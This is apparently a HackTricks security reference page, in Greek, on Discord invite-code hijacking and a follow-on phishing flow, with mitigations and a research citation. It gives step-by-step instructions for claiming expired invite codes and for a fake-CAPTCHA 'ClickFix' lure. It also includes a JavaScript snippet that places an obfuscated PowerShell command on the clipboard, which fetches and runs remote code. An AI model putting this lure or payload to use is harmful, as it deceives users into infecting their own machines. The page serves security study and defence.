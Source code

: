 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Η ευπάθεια του συστήματος προσκλήσεων του Discord επιτρέπει στους απειλητικούς παράγοντες να διεκδικήσουν κωδικούς προσκλήσεων που έχουν λήξει ή διαγραφεί (προσωρινές, μόνιμες ή προσαρμοσμένες) ως νέους προσαρμοσμένους συνδέσμους σε οποιονδήποτε διακομιστή με Boost επιπέδου 3. Με την κανονικοποίηση όλων των κωδικών σε πεζά, οι επιτιθέμενοι μπορούν να προεγγραφούν γνωστούς κωδικούς προσκλήσεων και να υποκλέψουν σιωπηλά την κίνηση μόλις ο αρχικός σύνδεσμος λήξει ή ο πηγαίος διακομιστής χάσει το Boost του.

## Τύποι Προσκλήσεων και Κίνδυνος Υποκλοπής

| Τύπος Πρόσκλησης      | Υποκλέψιμος; | Συνθήκη / Σχόλια                                                                                       |
|-----------------------|--------------|--------------------------------------------------------------------------------------------------------|
| Προσωρινός Σύνδεσμος  | ✅           | Μετά την λήξη, ο κωδικός γίνεται διαθέσιμος και μπορεί να ξαναεγγραφεί ως προσαρμοσμένο URL από έναν διακομιστή με Boost. |
| Μόνιμος Σύνδεσμος     | ⚠️           | Εάν διαγραφεί και αποτελείται μόνο από πεζά γράμματα και ψηφία, ο κωδικός μπορεί να γίνει διαθέσιμος ξανά.        |
| Προσαρμοσμένος Σύνδεσμος | ✅        | Εάν ο αρχικός διακομιστής χάσει το Boost επιπέδου 3, η προσαρμοσμένη πρόσκληση γίνεται διαθέσιμη για νέα εγγραφή.    |

## Βήματα Εκμετάλλευσης

1. Αναγνώριση
- Παρακολουθήστε δημόσιες πηγές (φόρουμ, κοινωνικά δίκτυα, κανάλια Telegram) για προσκλήσεις που ταιριάζουν με το μοτίβο `discord.gg/{code}` ή `discord.com/invite/{code}`.
- Συλλέξτε κωδικούς προσκλήσεων που σας ενδιαφέρουν (προσωρινές ή προσαρμοσμένες).
2. Προεγγραφή
- Δημιουργήστε ή χρησιμοποιήστε έναν υπάρχοντα διακομιστή Discord με προνόμια Boost επιπέδου 3.
- Στις **Ρυθμίσεις Διακομιστή → Προσαρμοσμένο URL**, προσπαθήστε να αναθέσετε τον στοχοθετημένο κωδικό πρόσκλησης. Εάν γίνει αποδεκτός, ο κωδικός διατηρείται από τον κακόβουλο διακομιστή.
3. Ενεργοποίηση Υποκλοπής
- Για προσωρινές προσκλήσεις, περιμένετε μέχρι να λήξει η αρχική πρόσκληση (ή διαγράψτε την χειροκίνητα αν ελέγχετε την πηγή).
- Για κωδικούς που περιέχουν κεφαλαία, η πεζή παραλλαγή μπορεί να διεκδικηθεί αμέσως, αν και η ανακατεύθυνση ενεργοποιείται μόνο μετά την λήξη.
4. Σιωπηλή Ανακατεύθυνση
- Οι χρήστες που επισκέπτονται τον παλιό σύνδεσμο αποστέλλονται ομαλά στον διακομιστή που ελέγχεται από τον επιτιθέμενο μόλις η υποκλοπή είναι ενεργή.

## Ροή Phishing μέσω Διακομιστή Discord

1. Περιορίστε τα κανάλια του διακομιστή ώστε να είναι ορατό μόνο το κανάλι **#verify**.
2. Αναπτύξτε ένα bot (π.χ., **Safeguard#0786**) για να προτρέπει τους νέους χρήστες να επαληθεύσουν μέσω OAuth2.
3. Το bot ανακατευθύνει τους χρήστες σε μια ιστοσελίδα phishing (π.χ., `captchaguard.me`) υπό την προφύλαξη ενός CAPTCHA ή βήματος επαλήθευσης.
4. Εφαρμόστε το κόλπο UX **ClickFix**:
- Εμφανίστε ένα μήνυμα σπασμένου CAPTCHA.
- Οδηγήστε τους χρήστες να ανοίξουν το διάλογο **Win+R**, να επικολλήσουν μια προφορτωμένη εντολή PowerShell και να πατήσουν Enter.

### Παράδειγμα Εισαγωγής Clipboard ClickFix
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Αυτή η προσέγγιση αποφεύγει τις άμεσες λήψεις αρχείων και εκμεταλλεύεται οικεία στοιχεία διεπαφής χρήστη για να μειώσει την υποψία των χρηστών.

## Mitigations

- Χρησιμοποιήστε μόνιμους συνδέσμους πρόσκλησης που περιέχουν τουλάχιστον ένα κεφαλαίο γράμμα ή μη αλφαριθμητικό χαρακτήρα (ποτέ δεν λήγουν, μη επαναχρησιμοποιήσιμοι).
- Περιστασιακά αλλάξτε τους κωδικούς πρόσκλησης και ανακαλέστε τους παλιούς συνδέσμους.
- Παρακολουθήστε την κατάσταση ενίσχυσης του διακομιστή Discord και τις αξιώσεις για vanity URL.
- Εκπαιδεύστε τους χρήστες να επαληθεύουν την αυθεντικότητα του διακομιστή και να αποφεύγουν την εκτέλεση εντολών που έχουν επικολληθεί από το πρόχειρο.

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/
- Discord Custom Invite Link Documentation – https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link

{{#include ../../banners/hacktricks-training.md}}
